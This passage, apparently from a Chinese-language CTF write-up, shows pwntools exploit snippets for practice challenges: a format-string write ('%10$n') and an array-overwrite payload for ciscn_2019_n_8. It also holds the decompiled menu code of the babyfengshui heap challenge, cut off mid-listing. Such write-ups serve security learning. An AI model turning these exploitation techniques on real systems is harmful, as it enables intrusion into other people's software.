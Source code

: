 ```python
sla(':', p32(0x804c044) + '%10$n')
sla(':', '4')
```

### ciscn_2019_n_8

IDA 可知需要让 var 的下标为 13 的元素（也就是第 14 个）等于 17，直接按照需求写脚本即可：

```python
sl(p32(17)*14)
```

### babyfengshui_33c3_2016

本题源码大致如下，开启了 canary 和 NX：

```c
void __cdecl __noreturn main()
{
  char v0; // [esp+3h] [ebp-15h]
  int action; // [esp+4h] [ebp-14h]
  size_t input; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  alarm(0x14u);
  while (1)
  {
    puts("0: Add a user");
    puts("1: Delete a user");
    puts("2: Display a user");
    puts("3: Update a user description");
    puts("4: Exit");
    printf("Action:");
    if (__isoc99_scanf("%d", &action) == -1 )
      break;
    if (!action)
    {
      printf("size of description:");
      __isoc99_scanf("%u%c", &input, &v0);
      add(input);
    }
    if (action == 1)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      delete((unsigned __int8)input);
    }
    if (action == 2)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      display((unsigned __int8)input);
    }
    if (action == 3)
    {
      printf("index:");
      __isoc99_scanf("%d", &input);
      update(input);
    }
    if (action == 4)
    {
      puts("Bye");
```